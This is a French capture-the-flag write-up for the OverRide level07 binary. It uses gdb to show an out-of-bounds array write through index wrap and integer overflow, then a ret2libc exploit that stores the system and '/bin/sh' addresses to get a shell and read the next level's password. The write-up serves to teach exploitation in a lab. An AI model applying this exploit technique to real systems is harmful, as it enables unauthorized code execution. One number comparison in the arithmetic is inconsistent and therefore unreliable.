 # Override
Override 42 security level07

```
Input command: ^C
level07@OverRide:~$
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 42
 Index: 13
 Completed store command successfully
Input command: read
 Index: 13
 Number at data[13] is 42
 Completed read command successfully
Input command: 42
 Failed to do 42 command
Input command: store
 Number: 42
 Index: -123
 Completed store command successfully
Input command: read
 Index: -123
 Number at data[4294967173] is 42
 Completed read command successfully
Input command: store
 Number: 23
 Index: 3
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command:
```

On remarque ici plusieurs choses, on a un executable qui nous permet de stocker des chiffres et de les afficher.
Les nombres negatifs bouclent sur l'int maximum.
Enfin les nombres divisible par 3 (n % 3 == 0) ne sont pas accessible.
Traduisons le code afin d'y voir plus clair.
On remarque 2 choses dès le debut, les arguments ainsi que l'environement sont nettoyés dès le début de l'execution.
On pense donc a oublier cette piste.
Essayons de trouver une EIP afin de potentiellement pouvoir faire une attaque ret2libc.

```
(gdb) info frame
Stack level 0, frame at 0xffffd2b0:
 eip = 0x8048723 in main; saved eip 0xf7e45513
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd2b0
 Saved registers:
  eip at 0xffffd2ac
```

Nous avons donc maintenant l'adresse de retour où nous voudrons injecter notre code au lieu de return.
# https://stackoverflow.com/questions/32345320/get-return-address-gdb/32361982

Maintenant trouvons l'adresse du tableau:

```
(gdb) b read_number
Breakpoint 1 at 0x80486dd
(gdb) r
Starting program: /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: read

Breakpoint 1, 0x080486dd in read_number ()
(gdb) disass
# On observe
0x080486ff <+40>:	add    0x8(%ebp),%eax
# Trouvons plus d'informations sur cette espace memoire 
(gdb) x/x $ebp+0x8
0xffffd0c0:	0xffffd0e4
# 0xffffd0c0. -> Adresse oû est stockée l'adresse du tableau
# 0xffffd0e4  -> Adresse du tableau
```

Calculons donc maintenant : 0xffffd0c0 - 0xffffd0e4 = -36.
Il s'agit d'un tableau d'int donc -36/4 = -9.

Verifions nos calculs:

```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: read
 Index: -9
 Number at data[4294967287] is 4294955268
 Completed read command successfully
```
4294955236 est bien égal à 0xffffd0e4

On va donc calculer l'offset:
0xffffd2ac - 0xffffd0e4
456.
On continue de diviser par 4
456 / 4 = 114
On a donc un offset de 114.
```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: read
 Index: 114
 Number at data[114] is 4158936339
 Completed read command successfully
4158936339 == 0xf7e45513
On se souvient
eip = 0x8048723 in main; saved eip 0xf7e45513
```
Preparons notre attque ret2libc en allant chercher l'adresse du system.
```
gdb ./level07
(gdb) b * main
Breakpoint 1 at 0x8048723
(gdb) r
Starting program: /home/users/level07/level07

Breakpoint 1, 0x08048723 in main ()
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb)
```
On a donc l'adresse du system : 0xf7e6aed0
On se souvient que les nombres divisibles par 3 sont bloqués directement.
Comme fait precedemment, on va non pas underflow mais overflow cette fois ci.
Calculons donc un nombre qui overflow en int pour donner 114:
Formule : UINT_MAX/4 + n
-> 1073741938
On a de la chance ce n'est pas divisible par 3.
```
Input command: store
 Number: 4321
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 4321
 Completed read command successfully
```

Comme precedemment, allons chercher l'adresse d'exit pour notre attaque car il nous faut une adresse de retour.
```
(gdb) b * main
Breakpoint 1 at 0x8048723
(gdb) r
Starting program: /home/users/level07/level07

Breakpoint 1, 0x08048723 in main ()
(gdb) info proc map
process 1995
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
	 0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
	 0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
	0xf7e2b000 0xf7e2c000     0x1000        0x0
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0
	0xf7fda000 0xf7fdb000     0x1000        0x0
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
(gdb)
```
On l'a : 0xf7f897ec

Donc :
```
0xf7e6aed0  system -> 4159090384
eip -> 1073741938
0xf7f897ec /bin/sh -> 4160264172
Index suivant -> 116 (EIP + 2 pour la ret2libc)
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

